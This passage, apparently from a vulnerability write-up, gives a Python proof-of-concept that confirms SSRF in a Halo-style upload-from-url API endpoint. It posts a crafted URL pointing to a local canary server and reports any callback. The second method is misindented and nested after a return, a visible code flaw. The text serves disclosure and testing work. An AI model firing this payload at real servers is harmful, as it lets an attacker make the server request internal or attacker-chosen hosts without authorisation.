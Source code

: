 ### SSRF Exploitation

With authentication established, SSRF exploitation becomes straightforward:

```python
def test_upload_ssrf(self):
    """Exploit SSRF via upload-from-url endpoint"""

    if not self.authenticated:
        print("Authentication required for upload SSRF")
        return False

    # Start canary server for definitive SSRF proof
    canary_url = f"http://host.docker.internal:{self.canary_port}/upload-ssrf-test"

    # Construct SSRF payload
    payload = {
        "url": canary_url,
        "filename": "ssrf-test.txt",
        "policyName": "default-policy"
    }

    # Target User Center upload endpoint
    endpoint = "/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

    headers = {
        'Content-Type': 'application/json',
        'Accept': 'application/json'
    }

    print(f"Testing: POST {endpoint}")
    print(f"Payload: url={canary_url}")

    # Execute SSRF attack
    response = self.session.post(
        f"{self.base_url}{endpoint}",
        json=payload,
        headers=headers
    )

    # Wait for canary server hits
    time.sleep(3)

    # Analyze results
    if len(CanaryHandler.connections) > 0:
        print("SSRF confirmed - server made outbound request")
        self.analyze_ssrf_evidence()
        return True
    else:
        print("No SSRF detected - check authentication and payload")
        return False

    def analyze_ssrf_evidence(self):
        """Analyze canary server hits for technical evidence"""
        for i, hit in enumerate(CanaryHandler.connections, 1):
            print(f"CANARY HIT {i}: {hit['method']} {hit['path']}")
            print(f"   From: {hit['client_ip']}:{hit['client_port']}")
            print(f"   Headers: {hit['headers']}")
```
